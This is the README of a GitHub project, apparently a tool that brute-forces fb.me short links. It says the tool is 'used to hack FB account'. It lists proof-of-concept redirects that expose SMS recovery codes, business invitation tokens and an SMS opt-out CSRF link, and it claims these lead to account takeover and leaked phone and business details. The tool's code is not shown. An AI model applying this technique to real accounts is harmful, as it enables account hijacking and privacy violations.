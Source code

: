 # WLG
## Word-List Token Generator &amp; Filter used to hack FB account 

Impact
===
[1]. Full Account Takeover using SMS Recovery Code.

       Poc Ex: 
       https://fb.me/XXXXXXXXXXXXXX -> 301 -> https://m.facebook.com/n/?recover%2Fcode%2F&u=100002271816418&n=711180&aref=XXX&medium=sms&mid=XXX&n_m=%2B962799999999

[2]. Business Account Takeover using invitations Token.

       Poc Ex: 
       https://fb.me/XXXXXXXXXXXXXX -> 301 -> https://business.facebook.com/invitation/?token=Invite-Token

[3]. CSRF Attack based GET Request leads to Turn OFF "SMS messages".

       Poc Ex: 
       https://fb.me/XXXXXXXXXXXXXX -> 301 -> https://www.facebook.com/settings/sms/phone_prefs_opt_out/?user_id=100002271816418&phone=%2B962799999999&token=XXXXXXXXXXXXXXXX

[3]. Information disclosure: 

      A  Phone Number
           Poc Ex: 
          https://fb.me/XXXXXXXXXXXXXX -> 301 -> https://www.facebook.com/settings/sms/phone_prefs_opt_out/?user_id=100002271816418&phone=%2B962799999999&token=XXXXXXXXXXXXXXXX

      B.  Business info leaks 
            businessID 
            businessName
            businessAdmin 
            Email invited
            PoC Ex: 
            https://fb.me/XXXXXXXXXXXXXX -> 301 -> https://business.facebook.com/invitation/?token=Invite-Token

![](https://github.com/Updatelap/WLG/blob/master/Bug_ATO_FB.png)



### Coded By [@Jafar_Abu_Nada](https://twitter.com/Jafar_Abu_Nada)
